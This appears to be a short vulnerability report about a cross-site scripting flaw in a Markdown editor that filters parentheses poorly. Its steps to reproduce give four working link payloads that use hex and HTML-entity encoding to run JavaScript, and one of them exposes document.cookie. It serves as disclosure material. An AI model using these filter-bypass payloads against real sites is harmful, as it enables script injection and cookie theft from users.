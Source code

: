# Markdown XSS

---

> **Reson:** Markdown editor only check `()` and remove `)` . Just using hex encode to bypass it .

## Steps To Reproduce:

1. Create `basic template`

2. Create post with `markdown editor`
3. Input some payload :

```markdown
[a](&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29)
```

```markdown
[a](javascript:window.onerror=alert;throw%20document.cookie)
```

```markdown
[a](javascript:this;alert(1&#41;)
```

```markdown
[a](javascript:alert(document.domain&#41;)
```

![image-20200218133343696](assets/image-20200218133343696.png)

4. Preview or publish post
5. XSS execute

![image-20200218133359623](assets/image-20200218133359623.png)

